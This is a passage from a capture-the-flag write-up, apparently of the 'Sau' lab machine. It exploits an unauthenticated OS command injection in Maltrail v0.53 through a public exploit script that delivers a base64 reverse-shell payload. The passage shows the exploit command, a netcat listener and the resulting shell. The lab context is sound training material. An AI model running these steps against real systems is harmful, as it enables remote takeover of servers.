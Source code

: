 ![](./assets/images/sau_mailtrail_03.jpg)


and we are lucky, just first result returns an unauthenticated OS command injection.

This vulnerability  could lead to a Remote Command Execution (RCE) on the victim.

**What is a OS command injection**

It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

**More information:** [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection){:target="_blank"}

**So just in order to exploit it we will use this public exploit**

[https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit){:target="_blank"}

The exploit just needs as argument the listening IP address and port and the target URL.

If we have a look at the the exploit we see it creates a reverse shell payload encoded in Base64 and delivers it to the target URL  using a curl command

The target URL is just the basket URL we created previously with the SSRF exploit

```bash
$ python3 exploit.py 10.10.14.192 443 http://10.10.11.224:55555/dvcvja
Running exploit on http://10.10.11.224:55555/dvcvja/login

```

Before runing the exploit, we have to run our listener

```bash
──(root㉿alter)-[/home/alter]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.224] 60032
$ 

```
And here there is the revere shell, now as usual,  let's improve it
